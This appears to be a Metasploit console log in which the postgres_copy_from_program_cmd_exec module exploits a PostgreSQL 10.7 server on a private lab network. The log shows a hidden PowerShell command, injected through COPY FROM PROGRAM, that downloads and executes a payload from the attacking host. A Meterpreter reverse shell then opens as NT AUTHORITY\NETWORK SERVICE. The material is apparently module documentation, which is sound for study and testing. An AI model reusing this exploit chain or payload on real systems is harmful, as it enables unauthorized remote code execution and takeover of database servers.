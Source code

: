     [*] Started reverse TCP double handler on 192.168.0.18:4456
    [*] 192.168.0.24:5432 - 192.168.0.24:5432 - PostgreSQL 10.7, compiled by Visual C++ build 1800, 32-bit
    [*] 192.168.0.24:5432 - Exploiting...
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable dropped successfully
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable created successfully
    [*] 192.168.0.24     web_delivery - Delivering Payload
    [!] 192.168.0.24:5432 - 192.168.0.24:5432 - Unable to execute query: COPY msftesttable FROM PROGRAM 'powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(''http://192.168.0.18:8080/pUDD5sy8vTTD'');';
    [*] 192.168.0.24:5432 - Exploit Failed
    [*] Exploit completed, but no session was created.
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) >
    [*] Sending stage (179779 bytes) to 192.168.0.24
    [*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.24:50154) at 2019-03-24 17:40:59 +0000

    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show sessions

    Active sessions
    ===============

      Id  Name  Type                     Information                                     Connection
      --  ----  ----                     -----------                                     ----------
      1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ DESKTOP-BHTT8OP  192.168.0.18:4444 -> 192.168.0.24:50154 (192.168.0.24)

    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: NT AUTHORITY\NETWORK SERVICE
    
    
